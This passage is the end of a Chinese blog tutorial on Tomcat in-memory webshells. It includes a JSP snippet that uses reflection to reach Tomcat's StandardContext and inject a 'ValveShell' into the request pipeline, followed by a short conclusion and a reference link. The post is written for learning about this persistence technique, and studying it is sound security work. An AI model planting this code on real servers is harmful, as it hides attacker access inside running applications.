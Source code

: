 ```plain
<%
    ServletContext serverContext = request.getSession().getServletContext();
    Field applicationContextField = serverContext.getClass().getDeclaredField("context");
    applicationContextField.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(serverContext);

    Field standardContextField = applicationContext.getClass().getDeclaredField("context");
    standardContextField.setAccessible(true);
    StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);

    ValveShell myValveShell = new ValveShell();
    standardContext.getPipeline().addValve(myValveShell);

%>
```

## 9\. 总结

本文对涉及的代码进行了逐行阅读，重要部分也加上了注释。由于篇幅原因，Valve 部分没有详细描述，原理相似。在学习内存马之前没有深入理解过 Tomcat 底层的原理，包括脚本启动、初始化类加载器、解析文件、启动组件等，这些前置知识很重要，详细后续再更新..

## 10\. 参考

[JavaWeb 内存马一周目通关攻略](https://su18.org/post/memory-shell/#filter-%E5%86%85%E5%AD%98%E9%A9%AC)

